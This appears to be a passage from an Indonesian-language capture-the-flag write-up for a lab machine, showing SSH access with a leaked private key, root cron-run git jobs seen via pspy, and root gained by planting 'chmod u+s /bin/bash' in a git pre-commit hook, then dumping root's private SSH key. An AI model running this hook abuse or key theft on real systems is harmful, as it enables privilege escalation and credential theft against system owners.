 ```terminal
o5tZ7zb7XTokw+6uF+mQriJqJYjhfJ2oXLjpufS+id3uYsLKnAXX06y4lWqaz72M
NfYDE7uwRhS1PwQyrMbaurAoI1Dq5n5nl6opIVdc7VlFPfoSjzixpWiVLZFoEbFB
AE77E1AeujKjRkXLQUO3z0E9fnrOl5dXeh2aJp1f+1Wq2Klti3LTLFkKY4og
-----END RSA PRIVATE KEY-----
```
```terminal
❯ ssh dev01@10.10.11.164 -i id_rsa
dev01@opensource:~$ cat user.txt
d****************************6
dev01@opensource:~$
```

### Mencari cara untuk meningkatkan hak istimewa yang dapat kita lihat dengan pspy bahwa root menjalankan tugas git setiap menit

```terminal
CMD: UID=0    PID=20396  | git add .
CMD: UID=0    PID=20397  | git commit -m Backup for 2022-08-22
CMD: UID=0    PID=20398  | /usr/lib/git-core/git gc --auto
CMD: UID=0    PID=20400  | /usr/lib/git-core/git-remote-http origin http://opensource.htb:3000/dev01/home-backup.git
CMD: UID=0    PID=20399  | git push origin main
```

### Di gtfobins kita melihat contoh menyalahgunakan pra-komit, kita dapat mencobanya dan setelah satu menit kita menjadi root

```terminal
dev01@opensource:~$ echo "chmod u+s /bin/bash" >> ~/.git/hooks/pre-commit
dev01@opensource:~$ chmod +x !$
dev01@opensource:~$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1113504 Apr 18 15:08 /bin/bash
dev01@opensource:~$ bash -p
bash-4.4# whoami
root
bash-4.4# cat /root/root.txt
4****************************f
bash-4.4#
```

### Kami juga menemukan id_rsa di direktori root sehingga kami dapat terhubung melalui ssh

```terminal
bash-4.4# cat /root/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIJKAIBAAKCAgEAwwPG6v8jiKw488NGHm0b1HPclB7gIM7D1rASiaKimF8cKlv7
Nhqprrg39wAFerkxKJ/U/J5NMZpWFJ2Hl4b1mrHFo5e7p2urwIcJ40Y3wBPO1L62
S2UERAqlwuaxja1Uuus8xztAfQ9scYONxBA6YEOe+Arb5NDp37HoTq8/tBFSA4R4
bDGYwneZSDfJwJ9t0UwaBlpXs0+Tm77Dtx9s9Zj4thBvaGho93CkonXi5eBlgsCX
EAJZi22aZdJNcXDSgRtA9o8FSyNTd4hsTr+iYN9taiDnXCbaC2geXuEYWl8/FBTr
JXhBBuiIVeD3YhpuFah/LoLInh1E5HY6i7F7bkZBtWcowj39INswug8ijObeUiCo
SZuowSjgvJMstYv4NxRMt3UMNfqlbpIqMViLRNsVD+vHHm0WtJ/a0hk/dAb4Odft
YuRptDMsgwKhDqkU53J9ujif0pb/n8qeW/MjD+FyFJnv4R65JmqfLGaoPhjRihQu
EBlAh8KWQJOgIdiOn87dD/UR0BslD+lYCuuzI/ag0nZIzDhIO789rRCKTq9pAM4F
fkiwOh6eMmctf8rkaoAmcN97UncHTnb/wIeG487hecL5ruThpHuOqSlV3sKylORN
n6dl9bcRm5x+7UmWnMKlNpl7UtNaJ/f1SLOQzT2RBWJ9jlP5sA3zinMgKDECAwEA
AQKCAgA9718nlyxj5b6YvHXyh9iE2t89M6kfAkv0TSs2By74kYxSb7AS+NjXIq6z
hZA378ULD+gG6we9LzUTiwxbNYOfQ8JvOGtiurFrjfe39L8UA7Z2nrMqssRuD6uh
gL73Lgtw6fD9nXXXwiRA0PUfRcAkfpVoVZqMy0TbxJbxFnt25uFTOKk+Q2ouqOlH
pGAxCvFHvZGuXtbnnehVWHq0GAj030ZuHD4lvLNJkr7W0fXj6CaVJjFT5ksmGwMk
P2xVEO3qDwvMwpN9z5RcrDkpsXcSqSMIx7Zy7+vkH4c1vuuLGCDicdpUpiKQ3R0f
mTk4MQixXDg4P1UT0lvk6x+g6hc22pG9zfPsUY85hJ+LllPxt/mD4y7xckq7WWGH
```